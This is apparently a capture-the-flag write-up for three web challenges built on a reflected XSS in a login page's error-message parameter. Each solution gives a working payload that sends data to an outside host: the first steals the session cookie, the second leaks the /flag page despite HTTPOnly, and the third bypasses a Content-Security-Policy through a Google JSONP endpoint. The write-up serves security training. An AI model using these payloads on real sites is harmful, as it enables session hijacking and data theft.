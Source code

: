 # Login

- Category: Web
- Solves: 1/12
- Difficulty: Easy

## Description

The login panel contains a Reflected XSS vulnerability

## Solution

The error message on the login page is vulnerable to XSS.
We can control the `msg` parameter and inject JavaScript code.

Payload: `http://web/login?msg=<svg onload=fetch('https://ctf.tris.tw/?'%2window.btoa(document.cookie))>`

# Login Revenge

- Category: Web
- Solves: 1/12
- Difficulty: Medium

## Description

The login panel contains a Reflected XSS vulnerability but this time admin's cookie is set with the `HTTPOnly` attribute.

## Solution

The error message on the login page is vulnerable to XSS, we can control `msg` parameter and inject JavaScript code.
Due to restriction of `HTTPOnly`, we can't steal the cookie directly. Instead, we can leak the content of the `/flag` page to obtain the flag

Payload: `http://web/login?msg=%3Csvg%20onload=%22fetch(%27/flag%27).then(res=%3Eres.text()).then(flag=%3Efetch(%27https://ctf.tris.tw?%27%2bwindow.btoa(flag)))%22%3E`

# Login Revenge Revenge

- Category: Web
- Solves: 0/12
- Difficulty: Medium

## Description

The login panel contains a Reflected XSS vulnerability but this time admin's cookie is set with the `HTTPOnly` attribute.
The Website is also protected by the following Content-Security Policy

`default-src 'none';`
`script-src *.google.com cdn.tailwindcss.com;`
`style-src cdn.tailwindcss.com 'unsafe-inline';`

## Solution

`script-src *.google.com` is insecure. It can be bypassed using Google's public JSONP endpoint: `https://accounts.google.com/o/oauth2/revoke?callback=alert()`

Due to the CSP restriction, if we want to exfiltrate data, we must navigate away from the current page by changing `location.href` and redirecting to our own site with the flag included.

Payload: `http://web/login?msg=<script src="https://accounts.google.com/o/oauth2/revoke?callback=var a = window.open('/flag');setTimeout(function(){location='https://ctf.tris.tw?'%252bwindow.btoa(a.document.body.innerHTML)},100);"></script>`